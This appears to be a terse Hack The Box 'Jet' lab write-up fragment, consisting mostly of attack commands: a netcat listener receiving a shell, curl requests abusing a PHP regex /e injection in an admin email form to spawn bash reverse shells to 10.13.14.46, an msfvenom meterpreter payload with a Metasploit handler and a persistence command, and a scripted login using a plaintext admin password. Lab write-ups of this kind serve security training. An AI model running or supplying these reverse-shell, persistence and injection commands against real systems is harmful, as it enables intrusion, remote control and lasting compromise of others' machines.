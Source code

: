Send and switch to a waiting nc listener:

```sh
┌──(root💀kali)-[~/htb/jet]
└─# nc -nlvp 1337                            
listening on [any] 1337 ...
connect to [10.13.14.46] from (UNKNOWN) [10.13.37.10] 49554
/bin/sh: can't access tty; job control turned off
$
```

Move to the home folder to see a number of users:

```sh
$ ls -ls
total 36
 4 drwxrwx--- 2 alex          alex          4096 Jan  3  2018 alex
 4 drwxr-x--- 7 ch4p          ch4p          4096 Apr  1  2018 ch4p
 4 drwxr-x--- 6 g0blin        g0blin        4096 Apr  1  2018 g0blin
12 -rwsr-xr-x 1 alex          alex          9112 Dec 12  2017 leak
 4 drwxr-x--- 2 membermanager membermanager 4096 Dec 28  2017 membermanager
 4 drwxr-x--- 2 memo          memo          4096 Dec 28  2017 memo
 4 drwxr-xr-x 3 tony          tony          4096 Dec 28  2017 tony
```

Also a file called leak:

```sh
$ file leak
leak: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e423d25f1c41c318a8f5702f93b8e3f47273256a, not stripped
```

socat TCP4-LISTEN:60002,reuseaddr,fork EXEC:/home/leak


SH="exec%28%22%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E13%2E14%2E46%2F4444%200%3E%261%27%22%29%3B"; curl -XPOST -sL "http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/email.php" -H "Cookie: PHPSESSID=dorlalvl59e6tafdednle95mb6" -d "swearwords%5B%2Fmessage%2Fe%5D=${SH}&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fi%5D=penis&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=admin%40securewebinc.jet&subject=subject&message=%3Cp%3Emessage%3C%2Fp%3E&_wysihtml5_mode=1" -o /dev/null

SH="exec%28%22%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E13%2E14%2E46%2F4443%200%3E%261%27%22%29%3B"; curl -XPOST -sL "http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/email.php" -H "Cookie: PHPSESSID=dorlalvl59e6tafdednle95mb6" -d "swearwords%5B%2Fmessage%2Fe%5D=${SH}&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fi%5D=penis&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=admin%40securewebinc.jet&subject=subject&message=%3Cp%3Emessage%3C%2Fp%3E&_wysihtml5_mode=1" -o /dev/null

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.13.14.46 LPORT=4445 -f elf -o pwn
msfconsole -nqx "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set LHOST 10.13.14.46; set LPORT 4445; set ExitOnSession false; exploit -jz"
meterpreter> run persistence -U -i 3 -r 10.13.14.46 -p pwn

PHPSESSID=$(curl -XPOST -sL "http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dologin.php" -d "username=admin&password=Hackthesystem200" -o /dev/null -D - | fgrep "Set-Cookie:" | head -1 | perl -ne 'print $1 if m?PHPSESSID=([0-9a-z]{26});?'); IP="10%2e13%2e14%2e46"; PORT=4444; SH="exec%28%22%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F${IP}%2F${PORT}%200%3E%261%27%22%29%3B"; curl -XPOST -sL "http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/email.php" -H "Cookie: PHPSESSID=${PHPSESSID}" -d "swearwords%5B%2Fmessage%2Fe%5D=${SH}&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fi%5D=penis&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=admin%40securewebinc.jet&subject=subject&message=%3Cp%3Emessage%3C%2Fp%3E&_wysihtml5_mode=1" -o /dev/null
